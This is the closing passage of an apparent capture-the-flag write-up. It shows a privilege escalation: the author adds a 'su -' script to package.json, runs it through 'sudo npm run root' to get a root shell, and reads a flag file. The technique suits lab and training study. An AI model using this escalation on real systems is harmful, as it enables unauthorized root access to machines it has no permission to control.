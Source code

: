 I modified the generated file to add a new script that would just run `su`. 

```bash
dylan@jason:~/test$ cat package.json
{
  "name": "test",
  "version": "1.0.0",
  "description": "",
  "main": "index.js",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1",
    "root": "su -"
  },
  "author": "",
  "license": "ISC"
}
```

Then I used npm to execute that command as root and get the privilege escalation. 

```bash
dylan@jason:~/test$ sudo npm run root

> test@1.0.0 root /home/dylan/test
> su -

root@jason:~# whoami
root

root@jason:~# cd

root@jason:~# ls
root.txt

root@jason:~# cat root.txt
REDACTED
```

And that was it. I spent more time getting the first code execution, then on the rest of the room. The vulnerability is pretty scary. But calling `unseserialize` on data that comes from the user is a bad idea.